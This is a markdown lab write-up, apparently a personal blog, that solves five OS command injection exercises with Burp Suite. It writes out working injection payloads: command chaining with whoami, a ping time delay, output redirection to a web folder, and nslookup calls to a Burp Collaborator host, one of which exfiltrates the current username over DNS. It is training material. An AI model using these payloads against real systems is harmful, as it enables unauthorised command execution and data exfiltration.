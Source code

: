 # OS command injection, simple case
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe1257e-aa10-4808-9456-07dc312be969)

Navigate to the website, 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6801b2fd-9ba6-4dfd-9da5-9504da42bb14)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/65bc6550-551a-4063-bdcf-116f9d6b0220)

Capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c6e53c61-e24c-4e25-a8e5-641059dcc47d)

So the vulnerability lies in the storeId function.

Checking payload all things I saw something on chaining commands, we can execute the ```whoami``` command by chaining it. So, we'll have something like this
```sh
storeId=1|whoami
```
Trying this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7eef72bb-d17b-4a48-880e-5c44fc12368e)

So we got the name of the current user.

Checking the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5c8d3284-eab1-48c8-8515-1ea3bd6c0280)

We have successfully completed the task

------------------------

# Blind OS command injection with time delays
<hr> 

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c2703689-8242-4165-a963-3c3a10f784c7)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cc8c94cc-1e7d-4212-9528-be5e103cf7b0)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fe35f794-dfde-41c4-8382-c396458e1120)

Lets capture this request and send it over to burp intruder

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e432dc1d-c393-4f04-a888-cb3f9490f4f5)

We were told the vulnerability is in the feedback function. We'll be injecting the email section. we can use this payload to cause a 10 second delay
```sh
||ping -c 10 127.0.0.1||
```
Applying that payload and ensuring it is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/baa7354a-3ff3-4511-89fb-5dd0fa884613)

Checking the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7c60d089-0eff-426b-a40b-373969423ad6)

We have successfully completed the task for this lab.

-------------------------------------

# Blind OS command injection with output redirection
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b10aa245-fd9c-4860-875b-9b551fe50fb6)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/50dd66e9-7259-4b7e-88a1-8e392a22f1d7)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/29482e08-8050-48bd-933d-8d863f08c3cc)

Capturing this request on burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ccbd0a4a-dbd4-4672-8001-7d891bcf0bbc)

Now, we were given the writable folder to be ```/var/www/images``` and we are to execute the ```whoami``` command and then retrieve the output. So to write to that folder we can use the payload
```sh
||whoami > /var/www/images/abeg.txt||
```
Ensure this is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/52142d1b-dea3-4b0f-9398-4919c6d0dad5)

Lets try to view an image, we'll be capturing this request on burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e20f52c-9ab0-4e84-8811-2d9ad311d08a)

Now the file we wrote the ```whoami``` command to earlier was ```abeg.txt```, so we'll be changing the name of the image to ```abeg.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e4559180-7927-4715-bf87-c6424faf6935)

Cool, the command got executed successfully. 

Checking our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/257f6306-c586-4e38-99e6-bf8d76839e97)

We have successfully solved this lab.

-------------------------

# Blind OS command injection with out-of-band interaction
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae96badf-72cb-400b-b270-8c704e0373f5)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ac7e3195-6efd-460d-b369-40e0886ed896)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/90e46c2b-b787-4cb6-a677-12b5553a9096)

Capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64fd3693-d050-4455-bd98-7053b2bba741)

so, to solve this lab we have to issue a DNS lookup to burp collaborator

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4fab75bf-9313-402e-b06c-527560ceff3e)

Click on "copy to clipboard" to copy the payload to use. So we can use ```nslookup``` with the payload burp collaborator client generated for us
```sh
||nslookup 2ad7n17mkusj9u18hveevnj8zz5pte.oastify.com||
```
Ensure it is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/10a8d6f5-7a53-4978-bb60-7cc1a6b4e298)

Checking the burp collaborator client window

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b30d0fcf-e2f0-48af-ab0d-fde372a9626e)

We have successfully sent a DNS query

Checking the webpage again,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/714cb00f-8d68-4769-b89f-3c86d4376771)

We have successfully solved the task

------------------------------------

# Blind OS command injection with out-of-band data exfiltration
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/75918da9-62b0-436b-89f7-12adc8709650)

Navigate to the website,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7ed04485-449b-4307-91d3-d71e74400bd1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dff1fe06-5e81-43d6-a857-33dfffd16b3a)

Capture this request on burpsuite and send it over to burp repeater

We have execute the ```whoami``` command and exfiltrate the output via a DNS query to Burp Collaborator.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dadea7c1-49d2-4eb5-a83e-2016d7a902ce)

Click on "copy to clipboard" to copy the payload to use. So we can use ```nslookup``` with the payload burp collaborator client generated for us to run the ```whoami``` command.

We can use the payload
```sh
||nslookup `whoami`.8clpqlx6r4oe0u0r87hwrnkonft5hu.oastify.com||
```
Ensure this is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ef52828-66de-4f38-9bce-de0b2543420e)

We got the name of the current  user to be ```peter-WmKLbv```. 

Submitting this name

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a91d42c5-bcb6-4931-8bc2-e3e50d04c4b1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2be1cde7-c4b1-4625-a8a4-ee0bbb22cb88)

We have successfully completed this lab😎

------------------------------

Till Next Time :xD

<br><br>
[Back To Home](../../index.md)











